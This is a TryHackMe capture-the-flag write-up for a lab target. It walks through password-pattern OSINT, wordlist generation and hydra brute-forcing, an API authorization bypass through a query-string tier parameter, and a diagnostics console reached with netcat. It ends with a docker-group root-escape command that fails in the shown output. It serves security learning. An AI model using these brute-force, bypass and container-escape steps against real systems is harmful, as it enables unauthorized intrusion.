# 🧠 The Great Disappearing Act – Full CTF Write-Up

**Platform:** TryHackMe  
**Difficulty:** Hard  
**Category:** Web / API Abuse / Business Logic / Docker Privilege Escalation  
**Flags:** 3  

---

## 📌 Executive Summary

The great disappearing act is a multi-stage CTF that focuses heavily on business logic flaws, API abuse, and service interaction, rather than classic vulnerabilities like SQLi or XSS.
 
The challenge rewards careful inspection of:

- Frontend JavaScript  
- API request flows  
- Manifest files  
- Backend service behavior  

### High-level attack chain
```
OSINT → Credential Abuse → Terminal Access
→ API Tier Bypass → Video Stream Enumeration
→ Diagnostics Abuse → Shell Access
→ Docker Privilege Escalation → Root
```

---

## 🌐 Initial Enumeration

### Port Scan
```bash
nmap -sCV -p- <TARGET_IP>
```

### Key Open Ports

| Port | Service | Description |
|------|--------|-------------|
| 8000 | HTTP | Fakebook |
| 8080 | HTTP | HopSec Security Terminal |
| 9001 | TCP | SCADA Terminal |
| 13400 | HTTP | Camera Portal |
| 13401 | HTTP API | Video Streaming |
| 13404 | TCP | Internal Diagnostics Console |

---

## 🕵️ OSINT – Fakebook (Port 8000)

Now navigating to the various ports especially port 8000, I find a login page, using wrapperlyzer, I found that it was running on Django. Browsing the page, I also noticed that I can create an account so that's what I did, after registering an account, I was logged in instantly.

Now this is where we gain our first clue. Using OSINT, we are able to gather quite a lot of information.

Fakebook posts contained multiple in-universe profiles. Reviewing posts revealed useful information about the character **Guard Hopkins**:

- **Email:** guard.hopkins@hopsecasylum.com  
- **Birth year:** 1982  
- **Interests:** Pizza  
- **Pet:** johnnyboy  

Going further, we even see the pattern used by the character when creating his old password:

```
Pizza1234$
```

As a final hint, the use of a tool is highlighted in the posts by another character:

> "Trying my hand at some bruteforcing challenges on THM, good to see they have /opt/hashcat-utils/src/combinator.bin on the AttackBox! Always comes in handy."

All that is needed now is simply creating a wordlist that follows the patterns shown. Since I don't have the combinator on my machine, I simply used chatGPT & some simple commands to create my wordlist.

### Generating base words

```bash
cat > words.txt <<EOF
johnnyboy
hopkins
pizza
wareville
EOF
```

```bash
cat > numbers.txt <<EOF
1982
1980
1981
1983
43
42
123
1234
EOF
```

```bash
cat > symbols.txt <<EOF
!
@
$
EOF
```

```bash
awk '{
  print tolower($0)
  print toupper(substr($0,1,1)) substr($0,2)
  print toupper($0)
}' words.txt | sort -u > words_case.txt
```

```bash
awk 'NR==FNR {n[++i]=$0; next}
     {for (j=1;j<=i;j++) print $0 n[j]}' numbers.txt words_case.txt > wn.txt
```

```bash
awk 'NR==FNR {s[++i]=$0; next}
     {for (j=1;j<=i;j++) print $0 s[j]}' symbols.txt wn.txt > wns.txt
```

```bash
awk 'NR==FNR {w[++i]=$0; next}
     {for (j=1;j<=i;j++) print $0 w[j]}' words_case.txt numbers.txt > nw.txt
```

```bash
awk 'NR==FNR {s[++i]=$0; next}
     {for (j=1;j<=i;j++) print $0 s[j]}' symbols.txt words_case.txt > ws.txt
```

### Final wordlist

```bash
cat  words_case.txt  wn.txt  wns.txt  nw.txt  ws.txt  | sort -u > fakebook_wordlist.txt
```

### Brute forcing Fakebook

```bash
hydra -l guard.hopkins@hopsecasylum.com  -P /path/to/fakebook_wordlist.txt  <TARGET_IP> -s 8000  http-post-form "/accounts/login/:username=^USER^&password=^PASS^:The e-mail address and/or password you specified are not correct."  -V
```

I got no hit. So I decided to test it out on other endpoints, mainly port 80 and port 8080.

```bash
hydra -l guard.hopkins@hopsecasylum.com  -P /path/to/fakebook_wordlist.txt  <TARGET_IP> -s 8080  http-post-form "/cgi-bin/login.sh:username=^USER^&password=^PASS^:Invalid username or password"  -V
```

Boom i was successfully able to bruteforce the password for this port.
---

## 🔐 Flag 1 – Security Terminal (Port 8080)


Using the brute-forced credentials, authentication succeeded on the Security Terminal @port 8080.

After logging in, the interface allowed unlocking Hopper’s cell by clicking the Unlock CTA button.

```
THM{h0[redacted]4d}
```
Observing the terminal, there seems to be 2 more parts that need to be unlocked, "Psych Ward Exit" & "Asylum Exit" and both require a specific keycode to be unlocked. When unlocked, they are responsible for displaying flag 2 and flag 3.
---

## 🎥 Camera System Architecture (Ports 13400 / 13401)

Pivoting to hunting Flag 2, I navigated to Port 13400. Using the bruteforced credentials, I gained access to the camera portal. While inspecting the camera portal, all I saw was a looping video with a single camera feed been restricted to admin user.

Client-side role checks were bypassed via localStorage by changing the hop_sec role to `admin`, but the backend still enforced restrictions. Mainly the exact same dead-end video was still being displayed. I then decided to start-up burpsuite to begin deeper investigation.

Burp Suite revealed that the camera portal (13400) is purely frontend, with logic handled by:

```
/v1/* (Port 13401)
```

Endpoints observed:

- POST /v1/streams/request  
- GET /v1/streams/<ticket_id>/manifest.m3u8  

Authentication used a custom Bearer token.

---

## 🚨 Flag 2 (Part 1) – API Tier Bypass

### Vulnerable Endpoint
```
POST /v1/streams/request
```

The `effective_tier` always returned `guard` even when `admin` was supplied in the body, but behaved differently if something like `cow` or anyother value not admin was passed in. Simply put, when the tier value = `cow`, effective_tier = `cow`, but when tier value = `admin`, effective_tier = `guard`. This shows admin is being restricted when passed in the request body. Thw next step was to find a way to make effective_tier = `admin`. Then i tried passing it as a query in the url.

### Observed Logic Flaw
- tier in JSON body is ignored  
- tier in query string overrides authorization  

### Exploit Request
```http
POST /v1/streams/request?tier=admin HTTP/1.1
Authorization: Bearer {"sub": "guard.hopkins@hopsecasylum.com", "role": "guard", "iat": 1767568563}.81791843abc51470bac5c823b9e712b481e5a583a72935088935f397c3227888

{
  "camera_id": "cam-admin",
  "tier": "guard"
}
```

### Result
```json
{
  "effective_tier": "admin",
  "ticket_id": "<UUID>"
}
```
And my guess was correct, i was able to gain admin privilege.

### Stream download
I have obtained an admin ticket id, so what next, i simply pass the ticket id into the video stream to see if it works, then i used it to retrieve the manifest file

```json
GET /v1/streams/39282385-67e7-4718-944a-49eaec80e669/manifest.m3u8
```
Then I simply used cURL and a simple bash command to download the video stream:

```bash
mkdir cams_admin
for i in $(seq 0 10); do
  curl -s "http://<IP>:13401/v1/streams/<UUID>/seg/playlist000.ts?r=$i" -o cams_admin/000_$i.ts
  curl -s "http://<IP>:13401/v1/streams/<UUID>/seg/playlist001.ts?r=$i" -o cams_admin/001_$i.ts
done
```

The video reveals a code, inputting it into the Psych Ward Exit keycode, flag 2 part 1 is displayed.

```
THM{Y0[redacted]n_}
```

---

## 📺 Manifest Analysis & Hidden Endpoints

Using ffprobe on the manifest.m3u8 file
```bash
ffprobe manifest.m3u8
```

```text
#[hls @ 0x559e1c6e07c0] Skip ('#EXT-X-VERSION:3')
#[hls @ 0x559e1c6e07c0] Skip ('#EXT-X-SESSION-DATA:DATA-ID="hopsec.diagnostics",VALUE="/v1/ingest/diagnostics"')
#[hls @ 0x559e1c6e07c0] Skip ('#EXT-X-DATERANGE:ID="hopsec-diag",CLASS="hopsec-diag",START-DATE="1970-01-01T00:00:00Z",X-RTSP-EXAMPLE="rtsp://vendor-cam.test/cam-admin"')
#[hls @ 0x559e1c6e07c0] Skip ('#EXT-X-SESSION-DATA:DATA-ID="hopsec.jobs",VALUE="/v1/ingest/jobs"')


These lines disclosed internal ingestion and diagnostics endpoints.
```
Some interesting endpoints have been displayed, but Just to be thorough, using ffuf to perform some enumeration is always smart.
---

## 🧪 Flag 2 (Part 2) – Diagnostics Abuse → Shell

### Endpoint discovery

**Step1:: Enumerating endpoints**
```bash
ffuf -u "http://<IP>:13401/v1/ingest/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 50
```

Results:
```
diagnostics
probe
```
**Step 2: Probe RTSP Source**

```json
GET /v1/ingest/probe?rtsp_url=rtsp://vendor-cam.test/cam-admin&tier=admin
```
```result
v=0
o=- 0 0 IN IP4 127.0.0.1
s=HopSec Asylumn Test Stream
t=0 0
a=control:*
m=video 0 RTP/AVP 96
a=rtpmap:96 H264/90000
a=fmtp:96 packetization-mode=1
a=x-job-metadata: {"SIM_EXEC": true, "note": "diagnostics"}
```

### Launch diagnostics job

```http
POST /v1/ingest/diagnostics?rtsp_url=rtsp://vendor-cam.test/cam-admin&tier=admin
```

Response:
```json
{
  "job_id": "<UUID>",
  "job_status": "/v1/ingest/jobs/<UUID>"
}
```

**Step 4: Poll Job Status**

```json
GET /v1/ingest/jobs/<UUID>
```

Final response:
```json
{
  "console_port": 13404,
  "rtsp_url": "rtsp://vendor-cam.test/cam-admin",
  "status": "ready",
  "token": "e8935f93ae0f430bb60ee1df9a10bab0"
}
```
It seems like a console has opened @ port 13404; the next step is to try and access it.
---

## 🐚 Shell Access (Port 13404)

The diagnostics console is not HTTP or WebSocket, but a raw TCP service. So I can simply connect to it using netcat:

```bash
nc -v <TARGET_IP> 13404
```
Pasting the token granted (after polling job), I gained an interactive shell as svc_vidops. I simply navigated to /home/svc_vidops/ and read flag 2:

```bash
cat /home/svc_vidops/user_part2.txt
```
```j[redacted]38}```.
---

## 🔼 Flag 3 – Privilege Escalation

**Enumerating the target:**

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

I found: 
```bash
-rwsr-xr-x   1 dockermgr dockermgr 16056 Nov 27 16:31 /usr/local/bin/diag_shell
```
owned by user dockermgr.

Executing it ```/usr/local/bin/diag_shell``` spawned a shell as:

dockermgr

**Key Enumeration:**
id
groups

---
**Output:**

```bash
uid=1501(dockermgr) gid=1500(svc_vidops) groups=1500(svc_vidops)
dockermgr@tryhackme-2404:~$ groups
svc_vidops
dockermgr@tryhackme-2404:~$ grep dockermgr /etc/group
grep dockermgr /etc/group
docker:x:998:ubuntu,dockermgr
dockermgr:x:1501:
```
Performing enumeration, we can see that dockermgr IS a member of the docker group. Which means we can escalate using ```docker run --rm -it -v /:/mnt alpine chroot /mnt sh```

## 🐳 Docker → Root Escalation

Now running the following command 
```bash
dockermgr@tryhackme-2404:~$ docker run --rm -it -v /:/mnt alpine chroot /mnt sh
<docker run --rm -it -v /:/mnt alpine chroot /mnt sh
docker: permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock: Head "http://%2Fvar%2Frun%2Fdocker.sock/_ping": dial unix /var/run/docker.sock: connect: permission denied

```
